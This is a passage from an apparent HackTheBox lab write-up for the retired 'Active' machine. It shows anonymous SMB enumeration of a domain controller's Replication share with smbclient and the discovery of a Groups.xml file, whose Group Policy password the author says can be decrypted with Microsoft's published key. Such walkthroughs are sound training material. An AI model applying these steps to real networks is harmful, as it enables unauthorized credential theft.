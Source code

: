 ```console
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```
- It is enabled and we can see the shares.
- Among all of the shares, Replication is not a default one. So let us check if we have a read permission on that share.

## Checking if Replication share is readable
```console
reddevil@ubuntu:~/Documents/htb/retired/active$ smbclient -N //active.htb/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
We get a smb shell.

## Listing the contents of Replication share
```console
smb: \> dir
  .                                   D        0  Sat Jul 21 16:22:44 2018
  ..                                  D        0  Sat Jul 21 16:22:44 2018
  active.htb                          D        0  Sat Jul 21 16:22:44 2018

                10459647 blocks of size 4096. 5727630 blocks available
				
smb: \active.htb\> dir
  .                                   D        0  Sat Jul 21 16:22:44 2018
  ..                                  D        0  Sat Jul 21 16:22:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:22:44 2018
  Policies                            D        0  Sat Jul 21 16:22:44 2018
  scripts                             D        0  Thu Jul 19 00:33:57 2018

                10459647 blocks of size 4096. 5727630 blocks available
smb: \active.htb\> 
```

## Listing the file contents recursively
```console
smb: \active.htb\> recurse ON 
smb: \active.htb\> dir 
```
First I turn on the recurse option, and if i do `dir`, it will list all the files and folder recursively.
![image](/assets/images/htb-boxes/active/Pasted image 20210704100806.png)
Among all of the files, Groups.xml looks interesting.

Reading [this](https://adsecurity.org/?p=2288) article, I found that this file contains the password for the local users which is used to replicate across the different devices on the domain and is encrypted using AES. Also the key for decryption was made public by the microsoft which means we can easily decrypt the hash and get the password.
